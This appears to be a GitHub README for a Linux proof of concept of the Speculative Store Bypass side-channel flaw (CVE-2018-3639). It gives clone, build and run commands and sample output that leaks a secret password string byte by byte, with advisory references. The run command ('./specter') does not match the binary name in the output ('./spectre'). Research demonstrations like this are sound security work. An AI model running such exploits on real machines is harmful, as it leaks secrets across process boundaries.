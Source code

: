 # CVE-2018-3639
Speculative Store Bypass (CVE-2018-3639) proof of concept for Linux

## Download
```sh
git clone git@github.com:mmxsrup/CVE-2018-3639.git
```

## Build
```sh
cd CVE-2018-3639
make
```

## Run
```sh
./specter
```

## Output
```txt
$ ./spectre 
idx: 0, highest:P, hitrate:21.340000
idx: 1, highest:A, hitrate:15.520000
idx: 2, highest:S, hitrate:13.600000
idx: 3, highest:S, hitrate:18.650000
idx: 4, highest:W, hitrate:19.860000
idx: 5, highest:O, hitrate:15.350000
idx: 6, highest:R, hitrate:17.470000
idx: 7, highest:D, hitrate:18.680000
idx: 8, highest:_, hitrate:15.580000
idx: 9, highest:S, hitrate:14.480000
idx:10, highest:P, hitrate:17.870000
idx:11, highest:E, hitrate:13.300000
idx:12, highest:C, hitrate:14.360000
idx:13, highest:T, hitrate:18.030000
idx:14, highest:R, hitrate:18.460000
idx:15, highest:E, hitrate:13.230000
PASSWORD_SPECTRE
```

## References
- [speculative execution, variant 4: speculative store bypass](https://bugs.chromium.org/p/project-zero/issues/detail?id=1528)  
- [Analysis and mitigation of speculative store bypass (CVE-2018-3639)](https://blogs.technet.microsoft.com/srd/2018/05/21/analysis-and-mitigation-of-speculative-store-bypass-cve-2018-3639/)  
- [Kernel Side-Channel Attack using Speculative Store Bypass - CVE-2018-3639](https://access.redhat.com/security/vulnerabilities/ssbd)  
- [Spectre V4: Store-Load Vulnerability](https://www.cyberus-technology.de/posts/2018-05-22-intel-store-load-spectre-vulnerability.html)  
